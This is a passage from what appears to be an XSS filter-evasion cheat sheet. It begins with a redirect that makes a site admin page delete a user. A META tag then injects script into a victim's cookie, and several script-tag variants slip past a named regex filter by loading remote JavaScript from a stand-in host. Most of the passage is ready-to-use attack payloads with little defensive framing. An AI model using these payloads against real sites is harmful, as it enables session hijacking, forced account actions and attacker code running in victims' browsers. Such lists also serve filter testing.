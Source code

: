```log
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

(Thanks to Timo for part of this)

### Cookie Manipulation

This method is pretty obscure but there are a few examples where `<META` is allowed and it can be used to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc):

```html
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### XSS Using HTML Quote Encapsulation

This attack was originally tested in IE so your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`, do the following:

```html
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

If you are performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` due to a regex filter that does `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (This is an important one, because this regex has been seen in the wild):

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Another XSS to evade the same filter: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Yet another XSS that evades the same filter: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`

Generally, we are not discussing mitigation techniques, but the only thing that stops this XSS example is, if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags), use this:

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):


```html
<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

